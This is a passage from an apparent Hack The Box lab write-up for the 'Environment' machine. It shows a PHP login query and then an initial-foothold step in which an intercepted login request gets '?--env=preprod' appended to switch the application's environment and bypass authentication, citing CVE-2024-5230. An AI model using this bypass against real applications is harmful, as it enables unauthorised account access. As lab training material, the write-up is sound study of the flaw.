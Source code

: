 ```php
 
    $user = User::where('email', $email)->first();
```

## Initial Foothold

Found environment variable preprod.

Now we simply intercept the login request and change the URL:

### (CVE-2024-5230)

```
POST/login
```
to

```
POST/login?--env=preprod
```

<img src="assets/HTB/Environment/image11.png" alt="Error Loading Image"/>

Forward the intercepted request a couple of times, and we are logged in.


<img src="assets/HTB/Environment/image12.png" alt="Error Loading Image"/>
